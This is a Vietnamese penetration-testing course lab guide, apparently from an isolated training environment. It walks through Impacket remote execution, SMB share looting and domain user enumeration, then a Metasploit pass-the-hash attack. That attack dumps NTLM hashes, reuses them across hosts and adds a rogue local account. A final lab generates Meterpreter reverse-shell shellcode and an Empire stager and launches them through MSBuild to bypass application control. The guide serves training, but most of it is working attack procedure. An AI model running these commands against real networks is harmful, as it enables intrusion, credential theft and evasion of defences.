Impacket là một bộ công cụ rất mạnh mẽ cho phép chúng ta tương tác với nhiều dịch vụ của Windows. Điều tuyệt vời là, toàn bộ mã nguồn đều có sẵn, vì vậy chúng ta có thể sử dụng các công cụ này và phát triển chúng để tạo ra các công cụ khác!

Chúng ta sẽ cùng xem xét một vài tính năng của Impacket.

### 1. wmiexec.py

Công cụ này cho phép chúng ta chạy các lệnh trên một dịch vụ từ xa. Tuy nhiên, nó yêu cầu chúng ta phải có quyền truy cập cấp quản trị trên máy mục tiêu. Nhược điểm lớn nhất là nó sử dụng DCOM và chúng ta cần có khả năng truy cập các cổng DCOM trên hệ thống mục tiêu, nhưng đôi khi chúng bị chặn bởi tường lửa, và bạn có thể phải sử dụng một công cụ khác, chẳng hạn như smbclient.py (sẽ được thảo luận sau).

Cú pháp của lệnh là:

```bash
wmiexec.py [[domain/]username[:password]@]<targetName or address> command
```
Ít nhất, chúng ta cần cung cấp tên người dùng, mục tiêu và lệnh.

```bash
wmiexec.py username@target command
```

Hãy nhắm mục tiêu vào các máy chủ Windows của bạn.

```bash
wmiexec.py sec560@10.130.10.25 hostname
# > Nhập mật khẩu sec560khi được yêu cầu.
```



Chúng ta có thể sử dụng các giao thức tích hợp sẵn của Windows để chạy các lệnh trên một hệ thống từ xa. Thậm chí tốt hơn nữa, chúng ta không cần cài đặt phần mềm quản trị (agent) trên hệ thống đó!

Hãy xem chúng ta đang xác thực với tư cách ai bằng cách sử dụng `whoami`. Nhấn phím mũi tên lên, sau đó thay thế `hostname` bằng `whoami`.

```bash
wmiexec.py sec560@10.130.10.25 whoami
# > Nhập mật khẩu sec560khi được yêu cầu.
```



Lệnh này trả về tên máy tính (`sec560student`) theo sau là tên người dùng (`sec560`).

Đến giờ, có lẽ bạn đã cảm thấy khó chịu vì phải nhập mật khẩu mỗi lần. Hãy đơn giản hóa việc này bằng cách đặt `:password` (nơi chứa mật khẩu sec560) ngay sau tên người dùng.

```bash
wmiexec.py sec560:1234@abcd@10.130.10.25 whoami
```

Với cách chúng ta đang thực hiện, mỗi lệnh đều độc lập với các lệnh khác. Hãy cùng tìm hiểu điều này.

Trước tiên, hãy xem vị trí thư mục hiện tại của chúng ta bằng cách chạy lệnh `cd`.

```bash
wmiexec.py sec560:1234@abcd@10.130.10.25 cd
```



Trong `cmd.exe` của Windows, `cd` lệnh (không có đối số) hiển thị thư mục hiện tại của chúng ta (tương tự như pwdtrên Linux).

Tiếp theo, chúng ta hãy chuyển thư mục đến `Users`.

```bash
wmiexec.py sec560:1234@abcd@10.130.10.25 cd users
```

Hãy lưu ý rằng công cụ không nhớ bạn đã chuyển đến `Users` thư mục nào. Chúng ta có thể khắc phục điều này bằng cách sử dụng đường dẫn đầy đủ đến các tệp, nhưng điều này có thể yêu cầu gõ thêm rất nhiều. Hãy chạy công cụ ở chế độ tương tác, nơi nó SẼ ghi nhớ vị trí của bạn!

Chạy lại công cụ, nhưng không thêm lệnh nào ở cuối. Điều này sẽ bắt đầu một phiên tương tác.

```bash
wmiexec.py sec560:1234@abcd@10.130.10.25
```



Giờ chúng ta đã có một giao diện nhắc lệnh tương tác! Hãy thử một vài lệnh để xem điều gì xảy ra.

```bash
cd users
whoami
cd
```



Hãy lưu ý rằng công cụ giờ đây đã ghi nhớ vị trí, ngay cả sau khi chạy một lệnh khác ở giữa chừng!

Hãy thoát khỏi lớp shell này.

```bash
exit
```

Chúng ta hãy cùng xem xét một công cụ khác, smbexec.py.

### 2. smbexec.py

Công cụ này hoạt động tương tự như wmiexec. Nó có thể hoạt động ở hai chế độ, tùy thuộc vào cách công cụ được chạy. Theo tài liệu:

- Chế độ chia sẻ : bạn chỉ định một thư mục chia sẻ, và mọi thao tác sẽ được thực hiện thông qua thư mục chia sẻ đó.
- Chế độ máy chủ : Nếu vì bất kỳ lý do nào mà không có thư mục chia sẻ nào khả dụng, tập lệnh này sẽ khởi chạy một máy chủ SMB cục bộ, do đó đầu ra của các lệnh được thực thi sẽ được máy đích gửi lại vào một thư mục chia sẻ cục bộ. Lưu ý rằng bạn cần quyền truy cập root để liên kết với cổng 445 trên máy cục bộ.

Ở chế độ "chia sẻ", công cụ của chúng ta sẽ ghi dữ liệu vào ổ đĩa của hệ thống mục tiêu. Chúng ta thường không muốn ghi trực tiếp vào ổ đĩa vì điều này sẽ để lại các dấu vết không cần thiết. Ở chế độ "máy chủ", toàn bộ quá trình ghi được thực hiện vào một thư mục chia sẻ trên hệ thống của kẻ tấn công và hệ thống từ xa sẽ kết nối với hệ thống tấn công. Máy chủ chạy trên cổng 445 và yêu cầu quyền truy cập root để lắng nghe trên cổng đó. Chúng ta sẽ chạy công cụ ở chế độ máy chủ với quyền root.

Cú pháp của các công cụ Impacket này tương tự nhau. Chúng ta chỉ cần nhấn phím mũi tên lên, nhấn phím CTRL+ ađể nhảy đến đầu dòng và thay thế `wmi` bằng `smb`.

```bash
sudo smbexec.py sec560:1234@abcd@10.130.10.25
```



Công cụ này rất giống với công cụ trước đó. Chúng ta hãy xem lệnh này `whoami`.

```bash
whoami
```



Hãy lưu ý rằng chúng ta đang chạy với quyền `system`. Điều này có thể là cần thiết hoặc không. Nó phụ thuộc vào việc bạn cần quyền quản trị (với hệ thống) hay bạn cần truy cập với tư cách người dùng thông thường hoặc người dùng miền (để truy cập các tài nguyên khác).

```bash
cd users
```



Hãy lưu ý rằng shell này không lưu trạng thái. Chúng ta không thể thay đổi thư mục nên luôn phải sử dụng đường dẫn đầy đủ để điều hướng. Hãy xem nó trông như thế nào.

```bash
dir \users
```




Nếu muốn tìm kiếm trong `sec560` thư mục con `Users`, ta phải sử dụng đường dẫn đầy đủ, như thế này:

```bash
dir \users\sec560
```



Nếu muốn tiến thêm một bước nữa, chúng ta cần sử dụng lại toàn bộ đường dẫn. May mắn thay, bạn có thể nhấn phím mũi tên lên để truy cập lệnh trước đó và chỉ cần thêm `\Desktop` vào cuối.

Nhấn phím mũi tên lên và thêm `\Desktop` vào cuối lệnh.

```bash
dir \users\sec560\Desktop
```



Việc lựa chọn giữa smbexec.py và wmiexec.py phụ thuộc vào những gì có sẵn trên hệ thống từ xa và sở thích cá nhân.

Hãy đóng phiên làm việc từ xa bằng cách gõ lệnh `exit`. Sau đó, chúng ta hãy xem xét một công cụ khác: smbclient.py.

### 3. smbclient.py

Điều này khác với `smbexec.py`. Đây là một chương trình khách được sử dụng để điều hướng các thư mục chia sẻ và di chuyển tập tin đến và từ các hệ thống. Hãy kết nối với máy chủ tập tin tại 10.130.10.25. Lần này, chúng ta sẽ sử dụng người dùng miền và mật khẩu mà chúng ta đã tìm ra trước đó trong lớp học. Vì đây là người dùng miền, chúng ta cần định dạng tên người dùng là domain/username. Chúng ta vẫn có thể sử dụng mật khẩu trên dòng lệnh.

Khởi tạo kết nối smbclient.py với máy chủ tập tin bằng cách sử dụng bgreen.

```bash
smbclient.py hiboxy/bgreen:Password1@10.130.10.25
```



Hiện tại chúng ta đã có một công cụ tương tác. Công cụ này hoạt động tương tự như smbclientlệnh trong Linux.

Trước tiên, hãy cùng xem phần trợ giúp bằng cách chạy lệnh này help.

```bash
help
```



Hãy cùng xem xét một vài lựa chọn được sử dụng phổ biến nhất.

- `shares` - liệt kê các cổ phiếu hiện có.

- `use {sharename}` - kết nối đến một thư mục chia sẻ cụ thể.

- `cd {path}` - thay đổi thư mục từ xa hiện tại thành {path}.

- `lcd {path}` - thay đổi thư mục cục bộ hiện tại thành {path}.

- `pwd` - hiển thị thư mục từ xa hiện tại.

- `ls {wildcard}` - liệt kê tất cả các tệp trong thư mục từ xa hiện tại.

- `put {filename}` - tải tệp tin có tên {filename} vào đường dẫn hiện tại.

- `get {filename}` - tải xuống tệp có tên {filename} từ đường dẫn hiện tại.

- `cat {filename}` - đọc tên tệp từ đường dẫn hiện tại.

- `close` - đóng phiên SMB hiện tại.

Hãy cùng xem xét hệ thống. Chạy `shares` lệnh.

```bash
shares
```



Các thư mục chia sẻ có đuôi `$` là các thư mục chia sẻ ẩn. Ngoài ra, `ADMIN$`, `C$`, và `IPC$` là các thư mục chia sẻ mặc định. Chúng thường chỉ có thể truy cập được bởi quản trị viên. Hãy cùng xem thư `Tools` mục chia sẻ bằng `use` lệnh.

```bash
use Tools
```

Kiểm tra các tệp trên thư mục chia sẻ này bằng lệnh `ls`.



Điều hướng đến `Cheat_Sheets` thư mục đó và xem nội dung bên trong thư mục.

```bash
cd Cheat_Sheets
ls
```



Chúng ta có thể tải xuống các tệp bằng lệnh `get`.

Tải xuống `Target_Inventory.csv`.

```bash
get Target_Inventory.csv
```

Chúng ta có thể thoát khỏi tập tin và thấy rằng mình đã tải xuống tập tin.

```bash
exit
ls -l Target_Inventory.csv
```



Chúng ta hãy cùng xem xét thêm một công cụ nữa, lookupsid.py.

### 4. lookupsid.py

Lệnh lookupsid.py sẽ liệt kê tất cả người dùng trong miền. Chúng ta cần chỉ định một người dùng miền cụ thể vì việc liên kết với người dùng null/ẩn danh hiện nay rất hiếm gặp. Trong trường hợp này, mục tiêu sẽ là bộ điều khiển miền.

```bash
lookupsid.py hiboxy/bgreen:Password1@10.130.10.25
```



Bạn sẽ thấy rất nhiều kết quả ở đây. Danh sách bao gồm mọi người dùng (`SidTypeUser`) và nhóm (`SidTypeGroup`) trong miền.

Đây là một danh sách dài, nếu chúng ta chỉ muốn một danh sách ngắn hơn, chúng ta có thể chỉ định RID để dừng trước đó. Chạy lại lệnh, nhưng thêm `520` vào cuối.

```bash
lookupsid.py hiboxy/bgreen:Password1@10.130.10.4 520
```



Đây là một công cụ tuyệt vời để lấy danh sách người dùng trong tên miền nhằm phục vụ việc đoán mật khẩu!

## Phần kết luận

Như bạn thấy, bộ công cụ Impacket cung cấp rất nhiều khả năng. Chúng tôi chỉ đề cập đến bốn công cụ nhưng còn nhiều công cụ khác nữa! Hãy xem tại đây để biết mô tả về nhiều công cụ khác.

Chúng ta sẽ sử dụng những công cụ này và một vài công cụ khác của Impacket trong suốt khóa học này.

# Lab 4.3. Truyền tham số băm (Pass-the-Hash)

## Mục tiêu

- Sử dụng tấn công pass-the-hash thông qua psexecmô-đun của Metasploit để tải Meterpreter lên máy mục tiêu.

- Để xem cách chúng ta có thể xác thực vào máy tính Windows mục tiêu chỉ bằng cách sử dụng mã băm, mà không cần sử dụng mật khẩu thực tế.

## Thiết lập phòng thí nghiệm

Các máy ảo được sử dụng:

- Slingshot Linux.

Bạn có thể ping địa chỉ 10.130.10.25 từ máy ảo Slingshot Linux:

```bash
ping -c 4 10.130.10.25
```



## Hướng dẫn thực hành từng bước

Trong bài thực hành này, bạn sẽ tấn công máy 10.130.10.5bằng thông tin đăng nhập mà chúng ta đã tìm thấy trước đó (bgreen/ Password1). Bạn sẽ lấy được mã băm mật khẩu, sau đó thử sử dụng các mã băm đó để truy cập vào các hệ thống khác.

Mục đích chính của bài thực hành này là giúp bạn lấy được các mã băm LM và NT và sử dụng chúng để truy cập quản trị vào máy mục tiêu mà không cần phải bẻ khóa mật khẩu. Lưu ý rằng trong suốt quá trình thực hiện bài thực hành này, bạn không cần phải biết giá trị thực của mật khẩu tài khoản khác. Bạn chỉ cần sử dụng dạng mã băm của nó để truy cập.



### 1. Thu được mã băm

Sử dụng Metasploit và mô-đun `psexec` để thiết lập phiên kết nối trên 10.130.10.25 bằng thông tin đăng nhập mà chúng ta đã tìm thấy trước đó. Đầu tiên, hãy khởi động Metasploit.

```bash
msfconsole
```

Đã cấu hình Metasploit để nhắm mục tiêu vào 10.130.10.5 bằng cách sử dụng thông tin đăng nhập mà chúng ta đã tìm thấy trước đó.

```bash
use exploit/windows/smb/psexec
set smbuser bgreen
set smbpass Password1
set smbdomain hiboxy
set rhosts 10.130.10.25
set lhost eth0
```



Hãy xác nhận lại cài đặt của bạn trong Metasploit.

```bash
show options
```



Đã đến lúc khai thác mục tiêu!

```bash
run
```



Hãy lấy các mã băm bằng mô-đun `post/windows/gather/hashdump` này.

```bash
run post/windows/gather/hashdump
```



Chúng ta sẽ xem xét dòng bắt đầu bằng `antivirus`. Tài khoản này trông khá chung chung, vì vậy hãy thử sử dụng mã băm đó trên các hệ thống khác.

### 2. Sử dụng hàm băm

Chúng ta sẽ sử dụng psexeclại mô-đun này. Trước tiên, hãy thiết lập tài khoản.

```bash
background
set smbuser john
unset smbdomain
```



```bash
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:9679f78eec859fdedb8c208c8fcf4abf:::
sec560:1202:aad3b435b51404eeaad3b435b51404ee:1331a486325907559cf7bd97946b46d0:::
notadmin:1203:aad3b435b51404eeaad3b435b51404ee:c62638b38308e651b21a0f2ccab3ac9b:::
clark:1210:aad3b435b51404eeaad3b435b51404ee:1331a486325907559cf7bd97946b46d0:::
antivirus:1217:aad3b435b51404eeaad3b435b51404ee:12ae851bc310750f4ce00e3c7ef9b658:::
john:1218:aad3b435b51404eeaad3b435b51404ee:2b576acbe6bcfda7294d6bd18041b8fe:::
```

Chúng ta cần đặt mật khẩu cho tài khoản này. Chúng ta không biết mật khẩu gốc, vì vậy chúng ta cần sử dụng các mã băm. Cuộn lên trên và lấy các mã băm (cả LM và NT, bao gồm cả mã `:` ở giữa). Sau đó dán mã băm bằng dấu chấm `smbpassword`.

```bash
set smbpass aad3b435b51404eeaad3b435b51404ee:2b576acbe6bcfda7294d6bd18041b8fe
```



Hãy nhắm mục tiêu vào tất cả các máy chủ Windows trong môi trường. Hãy nhớ lại từ kết quả quét Nmap của chúng ta rằng có 7 máy chủ khác (không tính hệ thống mà chúng ta có quyền truy cập) đang lắng nghe trên cổng 445.

Chúng ta có thể thiết lập `rhosts` tùy chọn để nhắm mục tiêu vào tất cả các máy chủ này.

```bash
set rhosts 10.130.10.10,25,45
```



Xác nhận các tùy chọn.

```bash
show options
```



Giờ hãy thử sử dụng mã băm này và khai thác hệ thống!

### 3: Khai thác

Cuối cùng, hãy chạy runlệnh để tấn công các mục tiêu:

```bash
run
```



Bạn sẽ thấy hầu hết các máy chủ đều cung cấp cho bạn STATUS_ACCESS_DENIED, nhưng hai trong số đó yêu cầu xác thực. Các dòng được tô sáng ở trên cho thấy chúng ta có quyền truy cập vào hệ thống .21 và .45 chỉ bằng cách sử dụng mã băm!

Nếu cuộc tấn công pass-the-hash thành công, bạn sẽ có quyền truy cập Meterpreter vào các máy mục tiêu. Bạn có thể xác nhận điều này bằng cách xem nhật ký phiên của mình.

```bash
sessions -l
```



### 4. Vỏ Meterpreter


Theo như Metasploit và các mục tiêu, bạn đã xác thực vào máy một cách hợp lệ. Bạn chỉ sử dụng mã băm thay vì mật khẩu.

Hãy chọn một trong các phiên của bạn (số phiên có thể khác với ví dụ) và tương tác với nó.

```bash
sessions -i 2
```



Giờ bạn có thể chạy bất kỳ lệnh Meterpreter nào mà chúng ta đã thảo luận trước đó trong khóa học.

```bash
getuid
```



```bash
ifconfig
```



Hãy sử dụng quyền truy cập này của mục tiêu để tạo tài khoản trên máy bằng cách khởi chạy `cmd.exe` shell, sau đó sử dụng nó `net user` để tạo tài khoản và đặt mật khẩu.



```bash
whoami
```



```bash
net user tungdvan 1234@abcd /add
```



Hãy cùng xem lại các tài khoản đã được tạo trên máy tính này cho đến nay:

```bash
net user
```



Để hoàn thành bài thực hành, bạn chỉ cần đóng `exit` shell, phiên Meterpreter và `msfconsole` phiên làm việc của mình.

```bash
exit
exit -y
```



## Phần kết luận

Tóm lại, trong bài thực hành này, bạn đã xác thực vào máy mục tiêu thông qua SMB với tư cách người dùng quản trị chỉ bằng mã băm của quản trị viên đó (không phải mật khẩu). Bạn đã truyền mã băm bằng psexecmô-đun của Metasploit. Những kỹ thuật này rất hữu ích cho các chuyên gia kiểm thử xâm nhập đã lấy được mã băm từ môi trường mục tiêu và có quyền truy cập *SMB vào các máy Windows mục tiêu.

# Lab 4.4. MSBuild

## Mục tiêu

- Sử dụng MSBuild như một phương pháp bỏ qua việc kiểm soát ứng dụng.

- Sử dụng tệp XML thử nghiệm để xuất ra văn bản đơn giản.

- Sử dụng MSBuild với Metasploit/Meterpeter.

- Sử dụng MSBuild với Empire.

## Thiết lập phòng thí nghiệm

Các máy ảo được sử dụng:

- Slingshot Linux.

- Windows 10.

## Hướng dẫn thực hành từng bước

### 1. Thiết lập

Chúng ta sẽ sử dụng máy ảo Windows và Slingshot Linux cục bộ của bạn cho bài tập thực hành này. Trước tiên, hãy bắt đầu với một tệp XML mẫu để chứng minh rằng chúng ta có thể thực thi mã tùy ý bằng MSBuild.

Trên máy tính Windows của bạn, hãy mở `build1.xml` tệp trong `CourseFiles` thư mục được liên kết trên màn hình máy tính.



Chúng tôi sẽ thay thế dòng mã được đánh dấu bên dưới bằng đoạn mã mà chúng tôi đã chọn.

```bash
# Văn bẳn gốc
public override bool Execute()
{
PUT CODE TO EXECUTE HERE;
return true;
}
```

### 2. Thử nghiệm ban đầu

Thay thế dòng này:

```bash
PUT CODE TO EXECUTE HERE;
```

Với đoạn mã này:

```bash
Console.WriteLine("Hello SEC560!");
```

Mã thay thế sẽ chỉ in ra "Hello SEC560!" . Toàn bộ tệp XML sẽ trông như thế này:



Hãy lưu tập tin của bạn `build1.xml`. Bây giờ, hãy mở cửa sổ Command Prompt (CMD, không phải PowerShell) và tìm kiếm `MSBuild.exe` bằng lệnh sau. Trong trường hợp này, CMD nhanh hơn, hiệu quả hơn và cho kết quả ngắn gọn hơn.

```bash
dir /b /s C:\msbuild.exe
```



Hãy chọn tệp MSBuild.exe sau:

`C:\Windows\Microsoft.NET\assembly\GAC_32\MSBuild\v4.0_4.0.0.0__b03f5f7f11d50a3a\MSBuild.exe`.

Đây là phiên bản 32-bit, vì vậy shellcode của chúng ta cũng cần phải là 32-bit. Nếu bạn chọn một phiên bản MSBuild khác ở trên, bạn sẽ phải thay đổi payload cho phù hợp.

Hãy sao chép tên tệp và đường dẫn, rồi dán vào cửa sổ dòng lệnh:

- `1`. Kéo chuột để chọn đường dẫn.

- `2`. Nhấn Enter để sao chép đường dẫn đã chọn vào clipboard.

- `3`. Nhấp chuột phải để dán.

Sau đó, bạn có thể kéo `build1.xml` tệp đã cập nhật vào cửa sổ dòng lệnh (hoặc nhập đường dẫn đầy đủ đến tệp). Lệnh của bạn sẽ trông như thế này:

```bash
C:\Windows\Microsoft.NET\assembly\GAC_32\MSBuild\v4.0_4.0.0.0__b03f5f7f11d50a3a\MSBuild.exe C:\CourseFiles\build1.xml
```



Nếu bạn nhận được thông báo lỗi, hãy kiểm tra lại xem bạn đã thêm mã chưa. Đồng thời, hãy chắc chắn rằng bạn đã thêm dấu chấm phẩy (`;`) ở cuối dòng.

### 3. Mã Shellcode của Meterpreter

Trước tiên, hãy đảm bảo các máy ảo của chúng ta có thể giao tiếp với nhau. Trong Windows, hãy thử ping eth0địa chỉ IP của giao diện máy chủ Linux.

```bash
ping 10.130.10.128
```



Chúng ta hãy chuyển sang Linux để có thể sử dụng Metasploit và msfvenom.

Đầu tiên, chúng ta hãy khởi chạy `msfconsole` và thiết lập một trình lắng nghe để nhận kết nối từ gói dữ liệu mới của chúng ta.

```bash
msfconsole
```

Chúng ta sẽ thiết lập các tùy chọn sau:

- Khai thác lỗ hổng: `use exploit/multi/handler`.

- Nội dung tải: `set payload windows/meterpreter/reverse_tcp`.

- LHOST: `set lhost 0.0.0.0` (0.0.0.0 sẽ lắng nghe trên tất cả các giao diện).

- LPORT: `set lport 3333`.

Sau đó, chúng ta sẽ xác nhận các cài đặt đã chính xác và khởi động trình lắng nghe bằng cách thực thi `run` lệnh.

```bash
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set lhost 0.0.0.0
set lport 3333
```



Xác nhận cài đặt của bạn.

```bash
show options
```



Bây giờ, hãy bắt đầu trình xử lý.

```bash
run
```



Mở một cửa sổ terminal mới. Chúng ta cần tạo shellcode bằng cách sử dụng msfvenom. Sử dụng lệnh bên dưới, nhưng hãy chắc chắn rằng bạn sử dụng địa chỉ IP Linux của mình cho eth0.

Trước tiên, hãy cùng xem xét các định dạng đầu ra của dữ liệu tải trọng.



Trong danh sách bạn sẽ thấy `csharp`, đó là shellcode ở định dạng byte tương thích với ngôn ngữ lập trình C#.

```bash
msfvenom -p windows/meterpreter/reverse_tcp lhost=eth0 lport=3333 -f csharp | tee /tmp/payload.txt
```



Chúng ta cần chuyển tập tin này sang Windows. Hãy chuyển đến /tmpthư mục đó và khởi chạy một máy chủ HTTP đơn giản.

```bash
cd /tmp
python3 -m http.server
```

Quay lại Windows và truy cập địa chỉ IP Linux của bạn trên cổng 8000. Sau đó mở `payload.txt` tệp tin.



Sao chép toàn bộ văn bản từ payload.txtvà dán vào build2.xmlngay bên dưới dòng có nội dung // PUT YOUR SHELLCODE HERE;. Lưu ý rằng khoảng cách thụt lề không quan trọng.



Hãy lưu `build2.xml` tập tin của bạn. Giờ thì, hãy phóng phần mềm độc hại của chúng ta!

```bash
C:\Windows\Microsoft.NET\assembly\GAC_32\MSBuild\v4.0_4.0.0.0__b03f5f7f11d50a3a\MSBuild.exe C:\CourseFiles\build2.xml
```



Sau đó, cửa sổ terminal sẽ chờ, vì lúc này chúng ta đã có một phiên làm việc trong Metasploit.



```bash
sysinfo
```



```bash
getuid
```



Thoát khỏi Metasploit.

```bash
exit -y
```

### 4. Empire

Việc xây dựng payload cho Metasploit khá rắc rối. Giờ chúng ta hãy sử dụng Empire để tạo một tập tin XML.

Trước tiên, hãy khởi động máy chủ.

```bash
cd /opt/empire
sudo ./ps-empire server
```





Trong một cửa sổ khác , hãy khởi động ứng dụng khách.

```bash
cd /opt/empire
./ps-empire client
```

Đầu tiên, chúng ta cần cấu hình một trình lắng nghe để nhận kết nối. Nếu bạn đã có trình lắng nghe từ bài thực hành trước, hãy sử dụng nó!

```bash
uselistener http
```



Chúng ta cần cấu hình và chạy trình lắng nghe.

```bash
set Host http://10.130.10.128:9999
set Port 9999
execute
```



Bây giờ, chúng ta hãy xây dựng tệp trình khởi chạy XML của mình.



Chúng ta cần thiết lập `Listener` rồi mới tạo dữ liệu.

```bash
set Listener http
generate
```



Như chúng ta thấy ở trên, tệp XML nằm ở vị trí /opt/empire/empire/client/generated-stagers/launcher.xml. Mở một cửa sổ terminal mới, di chuyển đến /opt/empire/empire/client/generated-stagers/thư mục đó và khởi chạy máy chủ web Python.

```bash
cd /opt/empire/empire/client/generated-stagers
python3 -m http.server
```



Mở Windows và truy cập địa chỉ IP của máy Linux trên cổng 8000. Nhấp chuột launcher.xml và lưu tệp vào màn hình nền Windows của bạn. Sau đó, chạy MSBuild bằng tệp vừa lưu.



Hãy chạy tệp XML và lấy một đặc vụ của Empire!



Lệnh sẽ có vẻ bị treo... vì chúng ta vừa hạ cánh một đặc vụ của Đế chế!



Chúng ta hãy cùng xem xét về người đại diện này.



### 5. Bonus

Nếu bạn có thêm thời gian, hãy biên dịch các payload Meterpreter 64-bit và thử nghiệm chúng với MSBuild 64-bit.

### 6. Dọn dẹp

Hãy tiêu diệt các đặc vụ và người nghe lén của bạn, sau đó đóng Empire lại.

```bash
agents
kill all
y
listeners
kill all
exit
y
```

## Kết luận

Chúng tôi chỉ cần chạy đoạn mã mình chọn bằng cách sử dụng tệp nhị phân đã được Microsoft ký. Luôn có những kỹ thuật mới để làm điều này. Không giống như các phương pháp vượt qua phần mềm diệt virus/EDR, các phương pháp vượt qua kiểm soát ứng dụng có thời gian tồn tại lâu hơn nhiều.

